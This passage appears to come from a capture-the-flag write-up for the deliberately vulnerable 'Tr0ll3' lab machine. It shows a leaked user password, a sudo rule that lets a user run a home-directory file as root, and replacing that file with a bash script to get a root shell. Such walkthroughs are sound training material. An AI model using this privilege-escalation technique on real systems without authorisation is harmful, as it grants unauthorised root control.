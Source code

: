 ![evidence](./static/18-viminfo.png)

When I try to check the sudo with the password `B^slc8I$`:
```shell
maleus@Tr0ll3:~$ sudo -l
...SNIPPED...
User maleus may run the following commands on Tr0ll3:
    (root) /home/maleus/dont_even_bother
```
Then I can run the `dont_even_bother` file located in the `maleus`'s home, and I can do it with sudo privileges, and that means, I can run anything as long as the file is called like that. When I use `Vim` to create a file called `dont_even_bother`, and I store the following lines:
```bash
#!/bin/bash
bash
```
And I give it execution permissions:
```shell
$ maleus@Tr0ll3:~$ chmod +x dont_even_bother
```
And I run:
```shell
$ maleus@Tr0ll3:~$ sudo /home/maleus/dont_even_bother
```
Then I get the `root` shell, and I get the `root` flag:
